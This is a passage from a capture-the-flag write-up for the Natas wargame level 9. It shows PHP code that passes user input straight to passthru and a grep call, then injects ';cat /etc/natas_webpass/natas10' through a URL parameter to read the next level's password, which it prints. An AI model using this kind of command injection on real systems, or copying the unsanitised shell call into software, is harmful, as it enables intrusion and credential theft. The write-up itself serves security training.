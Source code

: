 http://natas9.natas.labs.overthewire.org/?needle=*&submit=password

``` html
</form>
Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

index.php:    passthru("grep -i $key dictionary.txt")
```

**By reading the code, we can tell that there is a potential command injection. So if we enter ; cat /etc/natas_webpass/natas10 in the search field, we will get the password. That’s due to the fact that the ; token separates commands in a shell.**

http://natas9.natas.labs.overthewire.org/?needle=;%20cat%20/etc/natas_webpass/natas10&submit=Search

![10](./img/10.png)

Find words containing:

Output:

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu

## Level 9 → Level 10
